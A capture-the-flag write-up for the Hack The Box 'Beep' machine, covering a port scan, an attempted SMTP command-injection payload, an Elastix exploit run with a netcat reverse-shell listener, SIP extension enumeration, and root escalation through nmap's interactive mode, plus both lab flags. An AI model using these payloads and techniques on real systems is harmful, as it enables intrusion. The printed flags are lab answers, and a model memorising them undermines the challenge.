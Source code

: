 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Beep write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/Beep.png"></p>


# Recon
The researcher started out with a scan of the host (10.10.10.3) using naabu<sup>1</sup>
```naabu -host 10.10.10.7 -p - -c 500 -nmap-cli 'nmap -sV -sC -n -Pn -oN active-hosts' -o naabu.txt```

|Status|IP|Port| Status | IP | Port |
| -----|--|----------- | --- | -- | ---| 
| open | 10.10.10.7 | 22 | open | 10.10.10.7 | 993 |
| open | 10.10.10.7 | 25 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 80 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 110 | open | 10.10.10.7 | 3306 |
| open | 10.10.10.7 | 111 | open | 10.10.10.7 | 4190 |
| open | 10.10.10.7 | 143 | open | 10.10.10.7 | 4445 |
| open | 10.10.10.7 | 443 | open | 10.10.10.7 | 4559 |
| open | 10.10.10.7 | 878 | open | 10.10.10.7 | 5030 |
| open | 10.10.10.7 | 10000 |
<p style="text-align: center"><img src="/images/Beep/beep%20(2).jpg"></p>

# User enum
<details>
    <summary>PORT 22 OpenSSH 4.3</summary>
    <p>Moving on from this one until creds are found.</p>
 </details>
 <details>
    <summary>PORT 25 Postfix smtpd</summary>
    <p> 
    smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
    Attempted to find the ver of the service but I was not able to.
    Then tried a quick manual test to see if RCE was possible. 

```
HELO x 
MAIL FROM:<;ping -c 4 192.168.49.161;> 
RCPT TO:<root> 
DATA 
<enter> 
vry4n 
. 
QUIT

```
This did not work. 
</p>
</details>
<details>
    <summary>PORT 80 http</summary>
    <p>Port 80 redirects to 443.</p>
 </details>
 <details>
    <summary>PORT 443 https</summary>
    <p>Going to https://10.10.10.7 I found a elastix sign in page.
    I tried some defult creds root:root, admin:admin, and elastix: elastix and all failed.
    Next I used google search and found an exploit 18650.py<sup>2</sup> 
    After updating the RHOST, LHOST, AND PORT I started a nc listener.
    
```
    nc -nlvp 4444
``` 
and ran the script, 
```
python2.7 18650.py 
```
but failed to get a call back. 
after some research I found a suite of VoIP tools that could be used to find an open extention since ext 1000 was not working. 
I downloaded sipvicious<sup>3</sup>. From the sipvicious wiki<sup>4</sup> I was able to find the proper commend 

```
./svwar -m INVITE 10.0.0.1
```
The command returned an open ext 233(https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(1).jpg).  I again updated my 18650.py with the new ext (https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(4).jpg) and ran it again, this time I did get a call back.
Looking at the exploit there was a way to upgrade to admin right away. The user needed to run

```
sudo nmap --interactive

```
then 

```
 !sh 
```
Since I was root I went a head and got both flags(https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(3).jpg). 
USER FLAG:5be8f535cdf2b007b64885bf766db5d6
ROOT FLAG:a874a4316d949910a7fe32ca0da02907
 </p>
 </details>

 <p>No other ports were needed.</p>
 



REF
1. https://github.com/projectdiscovery/naabu
2. https://www.exploit-db.com/exploits/18650
3. https://www.kali.org/tools/sipvicious/
4. https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage

